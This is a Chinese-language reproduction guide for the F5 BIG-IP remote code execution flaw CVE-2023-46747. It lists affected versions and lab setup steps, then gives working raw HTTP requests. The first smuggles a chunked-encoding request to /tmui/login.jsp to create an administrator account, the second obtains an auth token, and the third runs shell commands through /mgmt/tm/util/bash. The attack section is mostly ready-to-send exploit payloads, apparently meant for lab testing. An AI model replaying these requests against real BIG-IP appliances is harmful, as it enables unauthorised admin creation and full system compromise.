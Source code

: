 ## F5 BIG-IP 远程代码执行漏洞(CVE-2023-46747)

## 漏洞描述

**F5 BIG-IP 远程代码执行漏洞(CVE-2023-46747)**，未经授权的远程攻击者通过管理端口或自身IP地址访问BIG-IP系统，利用此漏洞可能绕过身份认证，导致在暴露流量管理用户界面（TMUI）的 F5 BIG-IP 实例上执行任意代码。

## 影响版本

```
F5 BIG-IP <= 17.1.0
16.1.0 <= F5 BIG-IP <= 16.1.4
15.1.0 <= F5 BIG-IP <= 15.1.10
14.1.0 <= F5 BIG-IP <= 14.1.5
13.1.0 <= F5 BIG-IP <= 13.1.5
```

## 环境下载

```
https://my.f5.com/manage/s/downloads?productFamily=BIG-IP&productLine=big-ip_v15.x&version=15.1.8&container=Virtual-Edition&files=BIGIP-15.1.8-0.0.7.ALL-vmware.ova&locations=JAPAN

链接：https://pan.baidu.com/s/1zLMXJCKtZtzIxCQGoxwPgg 
提取码：ksdn 
```

搭建方式很简单，下载BIGIP-15.1.8-0.0.7.ALL-vmware.ova，接着用vm打开ova即可

搭建过程 [F5 WMware虚拟机环境搭建-BIG-IP Virtual Edition 11.3.0-CSDN博客](https://blog.csdn.net/ice_age1/article/details/49998059)

重置web密码

```
进入tmsh模式 敲击
modify auth user admin password admin
```

搭建成功页面



## 漏洞复现

### 第一步 发送 TMUI模块的请求

当发送到F5 BIG-IP TMUI模块的请求（例如登陆页面/tmui/login.jsp）中，包含一个类似值为 "xxx, chunked" 的 "Transfer-Encoding" 头，并且请求体内容满足特定内容时，漏洞会被触发。

&name=admin&name_before=&passwd=admin789456 参数填入账户密码

```
POST /tmui/login.jsp HTTP/1.1
Host: 192.168.127.146
Content-Type: application/x-www-form-urlencoded


204		
HTTP/1.1/tmui/Control/form	127.0.0.1	localhost	localhostPTmui-DubbufBBBBBBBBBBB
REMOTEROLE0�	localhostadminq_timenow=a&_timenow_before=&handler=%2ftmui%2fsystem%2fuser%2fcreate&&&form_page=%2ftmui%2fsystem%2fuser%2fcreate.jsp%3f&form_page_before=&hideObjList=&_bufvalue=eIL4RUnSwXYoPUIOGcOFx2o00Xc%3d&_bufvalue_before=&systemuser-hidden=[["Administrator","[All]"]]&systemuser-hidden_before=&name=admin&name_before=&passwd=admin789456&passwd_before=&finished=x&finished_before=�
0
```

![](./assets/20231031212344495.png)



### 第二步 获取用户token

```
POST /mgmt/shared/authn/login HTTP/1.1
Host: 192.168.127.146
Content-Length: 22
Content-Type: application/x-www-form-urlencoded

 {"username":"admin", "password":"admin789456"}
```

![](./assets/20231031212450387.png)



### 第三步 执行命令

将获取到得token带入`X-F5-Auth-Token`中，在通过`/mgmt/tm/util/bash` 执行命令

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: 192.168.127.146
Connection: keep-alive
Content-Length: 22
X-F5-Auth-Token:ICGZXJJROASFRPWYZF3EAQFCGN

 {"command":"run","utilCmdArgs":"-c whoami"}
```

![](./assets/20231031212657529.png)



### 参考链接

```
https://mp.weixin.qq.com/s/iN7rlJJaI4sl-fiL0eMXsQ
https://github.com/projectdiscovery/nuclei-templates/blob/56d79688e0d2ebce5b8939961946f4f32e663700/http/cves/2023/CVE-2023-46747.yaml
https://mp.weixin.qq.com/s/wUoBy7ZiqJL2CUOMC-8Wdg
https://blog.csdn.net/ice_age1/article/details/49998059
```

